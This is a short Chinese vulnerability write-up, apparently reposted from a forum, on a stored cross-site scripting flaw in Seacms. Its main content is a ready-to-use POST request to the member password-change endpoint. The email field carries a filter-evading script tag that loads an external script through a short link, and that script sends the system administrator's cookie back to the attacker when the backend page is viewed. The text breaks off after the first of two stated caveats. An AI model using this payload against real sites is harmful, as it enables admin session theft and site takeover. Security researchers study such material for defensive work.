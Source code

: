 # Seacms储存型xss

> 原文：[https://www.zhihuifly.com/t/topic/3111](https://www.zhihuifly.com/t/topic/3111)

# Seacms 储存型xss

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
POST /member.php?action=chgpwdsubmit `oldpwd=test&newpwd=test&newpwd2=test&email=test%[40test.com](http://40test.com)<scbase64ript src=https://url.cn/585l00F></scrbase64ipt>&nickname=&gaimi=%E7%A1%AE%E8%AE%A4%E4%BF%AE%E6%94%B9` 
```

> src的值为`http://target.0-sec.org/test.js`的短链接

当后台浏览到后台界面时，会触发漏洞，反弹回来Cookie，但需要注意两点，第一，只有系统管理员才能看到用户界面，普通管理员是没有这个权限的。